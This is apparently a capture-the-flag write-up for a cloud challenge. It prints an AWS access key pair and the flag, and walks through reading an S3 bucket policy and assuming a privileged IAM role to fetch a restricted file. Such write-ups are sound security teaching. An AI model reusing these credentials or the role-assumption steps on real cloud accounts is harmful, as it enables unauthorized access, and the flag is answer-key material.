 ```yaml
---
layout: writeup

title: Cats in the Bucket
level: 6 # optional, for events that use levels
difficulty: medium
categories: [cloud]
tags: []

flag: he2023{r013_assum3d_succ3ssfuLLy}

---
```


## Challenge

There is a bucket full of cat images. One of them contains a flag. Go get it!

```
Bucket: cats-in-a-bucket
Access Key ID: AKIATZ2X44NMCEQW46PL
Secret Access Key: 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
```

## Solution

We got a bucket name, so try a region:

When we visit [http://cats-in-a-bucket.s3-website-eu-west-1.amazonaws.com/](http://cats-in-a-bucket.s3-website-eu-west-1.amazonaws.com/) we get the message

```
400 Bad Request

- Code: IncorrectEndpoint
- Message: The specified bucket exists in another region. Please direct requests to the specified endpoint.
- Endpoint: cats-in-a-bucket.s3-website.eu-central-1.amazonaws.com
- RequestId: FB490WD7T4HGKGVW
- HostId: 6O/1HC9Rkpbz7CTt0N9LdLU8HBDG4r+soXelEScHgHp+opFS5f+hrlJEFUEJdDlTJwu8gLhCK9U=

```

ok so we go to [cats-in-a-bucket.s3-website.eu-central-1.amazonaws.com](cats-in-a-bucket.s3-website.eu-central-1.amazonaws.com), and here we see

```
404 Not Found

- Code: NoSuchWebsiteConfiguration
- Message: The specified bucket does not have a website configuration
- BucketName: cats-in-a-bucket
- RequestId: PM3VWVHPJF5P9JKR
- HostId: jOkYruD+efHf1nGXz/NehA/fVQxgqYrbm8c+Ia/4nl+fAnhO8ldZK40Z6WJM/1BYRL/RU8ymw58=
```

so there is no website, but we got the right bucket, now what? We have the access keys

we use awscli for further exploration:

```
$ aws s3 ls s3://cats-in-a-bucket

An error occurred (AccessDenied) when calling the ListObjectsV2 operation: Access Denied
```

ok, let's set up our credentials

```bash
$ aws configure
AWS Access Key ID [****************UWDA]: AKIATZ2X44NMCEQW46PL
AWS Secret Access Key [****************8Kup]: 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
Default region name [us-east-1]: eu-central-1
Default output format [None]:
```

and try again:

```bash
$ aws s3 ls s3://cats-in-a-bucket
2022-10-09 17:23:46      83709 cat1.jpg
2022-10-09 17:23:48      92350 cat2.jpg
2022-10-09 17:23:47     119214 cat3.jpg
2022-10-09 17:23:47      87112 cat4.jpg

```

ok, let's download those files:

```bash
$ aws s3 cp s3://cats-in-a-bucket/cat1.jpg .
download: s3://cats-in-a-bucket/cat1.jpg to ./cat1.jpg
$ aws s3 cp s3://cats-in-a-bucket/cat2.jpg .
download: s3://cats-in-a-bucket/cat2.jpg to ./cat2.jpg
$ aws s3 cp s3://cats-in-a-bucket/cat3.jpg .
download: s3://cats-in-a-bucket/cat3.jpg to ./cat3.jpg
$ aws s3 cp s3://cats-in-a-bucket/cat4.jpg .
fatal error: An error occurred (403) when calling the HeadObject operation: Forbidden
```

We get 3 very cute cat pictures

![](writeupfiles/cat1.jpg)
![](writeupfiles/cat2.jpg)
![](writeupfiles/cat3.jpg)

but an error on the fourth image, hmm..

maybe an older version didnt have the restriction?

```
$ aws s3api list-object-versions --bucket cats-in-a-bucket

An error occurred (AccessDenied) when calling the ListObjectVersions operation: Access Denied
```

ok, let's look at the policies that are set

```
$ aws s3api get-bucket-policy --bucket cats-in-a-bucket
```

```json
{
  "Statement": [
    {
      "Action": [
        "s3:ListBucket",
        "s3:GetBucketPolicy"
      ],
      "Effect": "Allow",
      "Principal": {
        "AWS": "arn:aws:iam::261640479576:user/misterbuttons"
      },
      "Resource": "arn:aws:s3:::cats-in-a-bucket"
    },
    {
      "Action": "s3:GetObject",
      "Effect": "Allow",
      "Principal": {
        "AWS": "arn:aws:iam::261640479576:user/misterbuttons"
      },
      "Resource": [
        "arn:aws:s3:::cats-in-a-bucket/cat1.jpg",
        "arn:aws:s3:::cats-in-a-bucket/cat2.jpg",
        "arn:aws:s3:::cats-in-a-bucket/cat3.jpg"
      ]
    },
    {
      "Action": "s3:ListBucket",
      "Effect": "Allow",
      "Principal": {
        "AWS": "arn:aws:iam::261640479576:role/captainclaw"
      },
      "Resource": "arn:aws:s3:::cats-in-a-bucket"
    },
    {
      "Action": "s3:GetObject",
      "Effect": "Allow",
      "Principal": {
        "AWS": "arn:aws:iam::261640479576:role/captainclaw"
      },
      "Resource": "arn:aws:s3:::cats-in-a-bucket/cat4.jpg"
    }
  ],
  "Version": "2008-10-17"
}
```

ok, so `cat4.jpg` is only accessible for the `captainclaw` role. Let's set that up:

in `~/.aws/config` we set:

```
[default]
region = eu-central-1

[profile cat]
role_arn = arn:aws:iam::261640479576:role/captainclaw
source_profile = default
```

and try downloading again:

```
$ aws s3 cp --profile cat s3://cats-in-a-bucket/cat4.jpg .
download: s3://cats-in-a-bucket/cat4.jpg to ./cat4.jpg
```

whoo, success!

![](writeupfiles/cat4.jpg)




